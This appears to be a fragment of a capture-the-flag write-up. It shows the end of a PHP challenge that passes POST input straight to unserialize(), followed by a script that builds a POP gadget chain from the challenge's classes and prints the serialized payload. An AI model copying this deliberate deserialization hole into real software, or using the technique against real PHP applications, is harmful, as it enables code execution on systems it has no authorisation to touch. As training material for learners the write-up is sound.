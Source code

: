 ```php
        }
    }
}

if(isset($_POST['pop'])){
    unserialize($_POST['pop']);
}
```

简单 pop 链构造

```php
<?php

class Start{
    public $name;
    public $func;

}

class Sec{
    public $obj;
    public $var;

}

class Easy{
    public $cla;

}

class eeee{
    public $obj;

}

$f = new Sec();

$e = new Start();
$e->func = $f;

$d = new eeee();
$d->obj = $e;

$c = new Easy();

$b = new Sec();
$b->obj = $c;
$b->var = $d;

$a = new Start();
$a->name = $b;

echo serialize($a);
?>
```
